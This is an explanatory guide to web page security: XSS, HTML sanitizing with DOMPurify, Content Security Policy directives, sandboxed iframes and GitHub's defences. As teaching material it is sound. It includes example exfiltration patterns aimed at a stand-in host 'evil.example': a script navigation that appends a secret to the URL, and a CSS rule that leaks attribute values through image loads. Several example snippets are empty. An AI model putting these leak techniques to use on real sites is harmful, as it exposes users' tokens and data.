

# Web page security: XSS, sanitizers and CSP

How a browser renders a page, how foreign code gets into one, and the two usual defences: an
HTML sanitizer such as DOMPurify, and a Content Security Policy (CSP).

The running example is a typical app: a page that keeps a login token in `localStorage`, fetches
markdown from an API and shows it as HTML.

## How a page renders, and when scripts run



Blue is the sanitizer, red the moment text turns into live page. The CSP is checked by the
browser at every load and run.

1. The browser asks the server for the page. The response carries headers as well as the HTML.
   One of them can be a CSP: rules the page must follow from then on, enforced by the browser
   itself.
2. The browser reads the HTML top to bottom and builds the DOM, the live tree of elements on
   screen. On `<script src="app.js">` it fetches the file and runs it. On
   `<link rel="stylesheet" href="style.css">` it loads the styles.
3. The page's own code runs. It reads the token and asks an API for content. What comes back is
   plain text.
4. The text becomes HTML: a markdown library turns `**hi**` into `<strong>hi</strong>`.
5. That HTML goes into the page, roughly `element.innerHTML = html`. The browser parses it into
   elements exactly as if it had been in the page from the start.

Step 5 is the dangerous one. Anything the browser parses there behaves as part of the page.

## The threat: cross-site scripting (XSS)

Markdown may contain raw HTML, so a file can hold:

```html

```

Put into the page, the image fails to load, `onerror` fires, and that JavaScript runs inside the
page with everything the page's own code can reach: its `localStorage`, its tokens, its cookies,
the power to make requests as the user. That is XSS: someone else's code running in your page.

The content doesn't have to be written by an attacker. A pasted snippet, a copied README or text
an agent wrote can carry it. The defences exist so the page is safe without trusting every byte
it shows.

## Layer 1: an HTML sanitizer (DOMPurify)

A sanitizer sits between steps 4 and 5. DOMPurify takes the HTML string, parses it in an inert
document (not the live page, so nothing in it runs or loads), walks every element, removes
whatever is not allowed, and returns a clean string. Only that clean string goes into the page.
In the example above, `onerror` is not an allowed attribute, so a harmless `` is
what's left.

Why a library and not a find-and-replace for `<script>`: HTML has endless tricks, such as odd
casing, encoded characters, `javascript:` links, SVG and MathML quirks, and broken markup the
browser "repairs" into something live. DOMPurify is widely used and maintained for exactly these
cases.

Why an allowlist and not a blocklist: an allowlist says which tags and attributes may stay, and
everything else goes, including tricks nobody has thought of yet. A blocklist removes only what
it names.

A tight allowlist for markdown keeps the tags markdown produces (paragraphs, headings, lists,
links, images, tables, code) and a few attributes such as `href`, `src`, `alt`, `id` and `class`.
It drops `style`, event handlers such as `onclick`, and `script`, `iframe`, `form` and `svg`.
Common extras:

- Prefixing ids, as GitHub does with `user-content-`. Without it, an element with `id="config"`
  appears as a global variable `window.config` and can shadow the page's own.
- Forcing any `input` to a disabled checkbox (for task lists), so content can't draw a form.
- Adding `rel="noopener noreferrer"` to links that open a new tab, so the opened page can't reach
  back through `window.opener` and redirect this one.

DOMPurify also drops `href` and `src` values with unsafe schemes such as `javascript:`, the one
kind of link that runs code when tapped. Ordinary `https:`, `mailto:` and relative links stay.

## Layer 2: the Content Security Policy (CSP)

A CSP is a response header listing what the page may load and run. The browser enforces it
regardless of what the page's code does, so it still holds when the sanitizer misses something.
To get code running, an attacker has to beat both layers.

A strict policy for the example app:

```text
default-src 'self'; script-src 'self'; style-src 'self'; img-src 'self' blob: data:;
connect-src 'self' https://api.example.com; base-uri 'none'; form-action 'none';
frame-ancestors 'none'
```

Each directive names a kind of resource and where it may come from:

- `script-src 'self'`: JavaScript only from files on the page's own origin. No CDNs, so
  libraries are copied into the app and served with it.
- `style-src 'self'`: the same for CSS.
- `connect-src`: where `fetch` and similar may send requests: the page's origin and its API.
- `img-src`: where images may load from. `blob:` covers images the page builds from data it
  fetched itself; `data:` covers images written inline as `data:` URLs.
- `default-src`: the fallback for any kind not listed, such as fonts, frames and media.
- `base-uri 'none'`: no `<base>` tag that would make relative links point elsewhere.
- `form-action 'none'`: no form submissions.
- `frame-ancestors 'none'`: no other site may embed the page in a frame, which stops
  clickjacking (an invisible copy of the page under a decoy).

Two more headers often sit beside it:

- `Referrer-Policy: no-referrer`: when the page loads something or the user follows a link, the
  other server isn't told which page they came from.
- `X-Content-Type-Options: nosniff`: the browser uses a file only as the type the server declares,
  so a text file can't be run as a script.

### 'self' versus inline

`'self'` answers "where does this file come from?". It means the page's own origin: the same
scheme, host and port. `<script src="app.js">` points at a URL on that origin, so it passes.

Inline means code written inside the HTML itself, with no URL:

```html
<script>doSomething()</script>

<a href="javascript:doSomething()">
<style>.box { color: red }</style>
<div style="color: red">
```

There is no "where from" to check, and the browser cannot tell whether the page's author wrote
it or an attacker injected it. So CSP treats inline as its own category, and `'self'` does not
cover it. Allowing it takes `'unsafe-inline'`, or one of two narrower tools:

- A hash: the policy lists the exact hash of each allowed inline block. It only works for
  content known in advance.
- A nonce: a random value the server puts in both the header and the allowed `<script>` or
  `<style>` tags, new on every response. It covers tags but not `style="..."` attributes.

Blocking inline script is what makes the `onerror` example above harmless even if it slipped
past the sanitizer. A script file that is allowed doesn't make its output allowed either: if
`lib.js` comes from `'self'` and writes a `<style>` block into the page, that block is inline and
is blocked under `style-src 'self'`. Diagram libraries such as Mermaid do exactly this.

What CSP does not block: styles an allowed script sets through the CSS object model, such as
`el.style.color = "red"` or `sheet.insertRule(...)`. Only markup-borne inline styles are inline
in CSP's sense, and that includes `setAttribute("style", ...)`.

## How dangerous is each kind of content

### Inline styles

CSS can't run code. Its classic attacks and what stops them:

- Leaking data: a rule like "if this attribute starts with `a`, load
  `url(https://evil.example/a)`" leaks a value one guess at a time, without any script. A tight
  `img-src` and `default-src` stop it: every load must go to an allowed origin.
- Keylogging: the same trick, using selectors on what is typed into an input. It needs the same
  outside loads and is stopped the same way.
- Faking the page: hiding things, covering the page with fake content, making text look like a
  button. Nothing in CSP stops this once inline styles are allowed. It is visual only, but it can
  trick a tap.

So `style-src 'unsafe-inline'` with a tight `img-src` costs only the faking risk.

### Images, SVG included

An image loaded with `` is inert, whoever serves it:

- No script runs inside it, even an SVG that contains `<script>`.
- It loads nothing further: no outside fonts, images or stylesheets.
- It can't reach the page: no DOM, no `localStorage`, no cookies.

A hostile or hacked image host can therefore show a wrong picture and log who asked (address,
time, the URL itself), and little else. The remaining risk is a bug in the browser's image
decoder, which every image on every site shares.

Opening `img-src` to outside hosts does not open a path to secrets either. To carry a secret
out, an image URL has to be built from it, and only a script could do that. If foreign script
runs, it can leak through a plain navigation (`location = "https://evil.example/?" + secret`),
which CSP doesn't block. The real guard on secrets is `script-src` and the sanitizer; `img-src`
mostly limits what CSS can reach and who learns that the page was viewed.

The same SVG behaves very differently once it is put straight into the page as markup: then it
is part of the DOM, its `<style>` is inline style, and its scripts and event handlers are live
HTML. Showing third-party SVG through `` and never as markup keeps it inert. That is also
the safe way to use a diagram service such as mermaid.ink or the PlantUML server: encode the
diagram into the URL and show the result as an ``.

### Links

A link does nothing until tapped. The one dangerous kind is `javascript:`, which runs code on tap;
sanitizers drop it and CSP blocks it as inline script. Opening in a new tab needs `noopener` so
the new page can't drive the old one.

## Sandboxed iframes

A sandboxed iframe isolates content that needs looser rules. Embedded as:

```html
<iframe sandbox="allow-scripts" src="/diagram.html"></iframe>
```

the frame may run its own scripts, but without `allow-same-origin` the browser gives it a unique
opaque origin. It can't read the parent's `localStorage` or cookies, can't touch the parent's
DOM, and can only exchange messages through `postMessage`. Its own page may send a looser CSP,
such as inline styles for a diagram library, without loosening the main page. The cost is message
passing and sizing the frame to its content, plus `frame-src` in the parent's policy.

## How GitHub does it

GitHub shows untrusted markdown from millions of repos, with the same layers:

- An allowlist sanitizer on rendered markdown. It strips `script`, `style`, `style="..."`, event
  handlers, `iframe` and `form`, which is why a README can't set colours.
- A `user-content-` prefix on ids and named anchors.
- A strict CSP on `github.com`.
- Outside images rewritten to `camo.githubusercontent.com`, a proxy, so the image's host never
  sees the reader's address or which page they were on. Camo URLs are signed with GitHub's key,
  so nobody else can mint them.
- Rich content such as Mermaid diagrams, maps and 3D models rendered in an iframe on a separate
  domain, `viewscreen.githubusercontent.com`, and raw files served from
  `raw.githubusercontent.com`. Whatever runs there can't reach a `github.com` session.

The principle: keep the page that holds the secrets strict, and push anything needing looser
rules into an inert `` or a separate origin.
